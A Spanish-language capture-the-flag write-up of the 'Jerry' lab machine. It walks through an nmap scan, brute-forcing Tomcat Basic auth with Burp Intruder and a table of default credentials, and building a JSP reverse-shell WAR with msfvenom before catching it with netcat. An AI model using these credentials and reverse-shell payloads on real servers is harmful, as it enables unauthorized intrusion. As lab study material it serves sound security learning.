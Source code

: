 # 5 - Jerry \(win\_easy\)

## **Scanning**

```text
nmap -T4 -p- -A -sS 10.10.10.4
```

![](../../.gitbook/assets/imagen%20%28554%29.png)

Tenemos un **apache tomacat default page**.

![](../../.gitbook/assets/imagen%20%28551%29.png)



### Apache Tomcat Default Credentials

| Username | Password |
| :--- | :--- |
| admin | password |
| admin |  |
| admin | Password1 |
| admin | password1 |
| admin | admin |
| admin | tomcat |
| both | tomcat |
| manager | manager |
| role1 | role1 |
| role1 | tomcat |
| role | changethis |
| root | Password1 |
| root | changethis |
| root | password |
| root | password1 |
| root | r00t |
| root | root |
| root | toor |
| tomcat | tomcat |
| tomcat | s3cret |
| tomcat | password1 |
| tomcat | password |
| tomcat |  |
| tomcat | admin |
| tomcat | changethis |

### Usando burpsuit

Lo arracamos con todo default

Vamos a proxy -&gt; opciones vemos la ip

Lo ponemos como proxy de firefox

![](../../.gitbook/assets/imagen%20%28549%29.png)

#### Enviando una default credential

Al entrar al login probamos tomcat tomcat pero antes de enviarla probamos ver donde estan esos parametros. 

![](../../.gitbook/assets/imagen%20%28556%29.png)

Bien el problema aqui es que aparece como Basic: y algo encriptado \(en la ultima linea\), para esto lo enviamos al decoder. En el decoder lo podemos cambiar a base64 y verlos en plain text

![Resultado](../../.gitbook/assets/imagen%20%28548%29.png)

No hubo suerte con el anterior.

Hacemos **gedit** con las contraseñas y usuarios por defecto, reemplazamos \(cntl h\) el espacio en el medio por un **:** ya que es el formato por defecto que vimos.

![](../../.gitbook/assets/imagen%20%28555%29.png)

Hacemos un bash script para pasar eso todo a base64

```text
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
```

Back al burpsuit, desde ahi ponemos el modo intruder en sniper. Seleccionamos el archivo en base64 y desde payloads le cargamos los hashes.

![](../../.gitbook/assets/imagen%20%28559%29.png)

Pasandole el payload llegamos al correcto, decodificandola era **tomcat:s3cret**

![](../../.gitbook/assets/imagen%20%28558%29.png)

### **Inside tomcat**

![](../../.gitbook/assets/imagen%20%28552%29.png)

Vemos que maneja los archivos WAR, podemos subir alguno, probemos uno malicioso de google.

Con msfvenom

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

Usaremos netcat para escuchar la entrada del reverse shell

![](../../.gitbook/assets/imagen%20%28550%29.png)

![](../../.gitbook/assets/imagen%20%28557%29.png)



